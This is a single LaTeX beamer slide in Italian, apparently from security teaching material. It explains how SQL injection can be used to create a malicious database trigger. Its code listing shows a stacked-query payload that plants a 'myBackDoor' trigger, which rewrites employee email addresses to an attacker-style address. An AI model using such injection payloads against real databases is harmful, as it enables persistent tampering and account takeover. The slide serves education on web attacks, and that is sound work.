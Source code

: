 \documentclass{beamer}
\newtheorem{codice}{Listing}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Database Backdoors}
  I database permettono la creazione di {\it triggers}: {\it stored procedures} da eseguire contestualmente all'esecuzione di altre operazioni.
  \pause
  \medskip
  \newline
  Un attaccante pu\`o sfruttare una vulnerabilit\`a SQL Injection per creare un trigger malizioso!
  \begin{codice}
    \begin{semiverbatim}
      101; CREATE TRIGGER myBackDoor 
           BEFORE INSERT ON employee 
           FOR EACH ROW BEGIN UPDATE employee 
           SET email='john@hackme.com' 
           WHERE userid = NEW.userid
    \end{semiverbatim}
  \end{codice}
\end{frame}
\end{document}
